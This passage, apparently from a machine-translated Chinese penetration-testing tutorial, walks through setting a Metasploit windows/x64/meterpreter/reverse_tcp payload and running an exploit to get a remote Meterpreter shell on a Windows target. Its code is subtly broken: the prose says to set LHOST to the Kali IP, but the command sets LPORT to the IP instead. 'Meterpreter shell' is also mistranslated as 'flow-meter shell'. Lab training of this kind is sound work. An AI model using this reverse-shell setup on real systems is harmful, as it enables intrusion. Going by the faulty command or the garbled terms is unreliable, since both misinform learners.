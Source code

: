6.  我们将使用反向 TCP 负载进行此攻击。因为我们的 Windows 机器是 64 位的，所以我们将选择要交付的 64 位有效负载。接下来，将您的`LHOST`设置为您的 Kali IP 地址：

```
set payload windows/x64/meterpreter/reverse_tcp
set LPORT <<Kali IP Address>>
```

完成后，您可以发出`show options`命令，检查是否已填写所有需要的数据：

![](img/2f1d1528-907e-4aef-bf6d-1e863d609eb4.jpg)

7.  现在，只需运行漏洞攻击。您将进入一个流量计外壳：

![](img/68a6af0b-7820-4675-84b3-925576ae7ab9.jpg)
